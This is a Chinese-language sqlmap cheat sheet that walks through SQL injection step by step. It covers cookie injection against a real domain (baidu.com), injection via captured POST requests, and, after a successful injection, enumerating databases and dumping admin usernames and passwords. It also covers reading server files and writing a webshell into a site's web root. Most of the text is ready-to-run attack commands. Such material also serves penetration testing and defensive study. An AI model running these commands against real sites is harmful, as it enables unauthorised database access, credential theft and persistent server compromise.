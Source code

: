 ### 跟随302跳转

当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，
当注入错误的时候，先报错再跳转的时候，不需要跟随302。
目的就是：要追踪到错误信息。

### cookie注入

当程序有防get注入的时候，可以使用cookie注入
sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2（只有level达到2才会检测cookie）

### 从post数据包中注入

可以使用burpsuite或者temperdata等工具来抓取post包

sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql   指定username参数

## 注入成功后

### 获取数据库基本信息

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 –dbs

查询有哪些数据库

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test –tables

查询test数据库中有哪些表

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin –columns

查询test数据库中admin表有哪些字段

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin -C “username,password” –dump

dump出字段username与password中的数据

其他命令参考下面

### 从数据库中搜索字段

sqlmap -r “c:\tools\request.txt” –dbms mysql -D dedecms –search -C admin,password
在dedecms数据库中搜索字段admin或者password。

### 读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

–file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
–file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
–file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
\#示例：
sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”
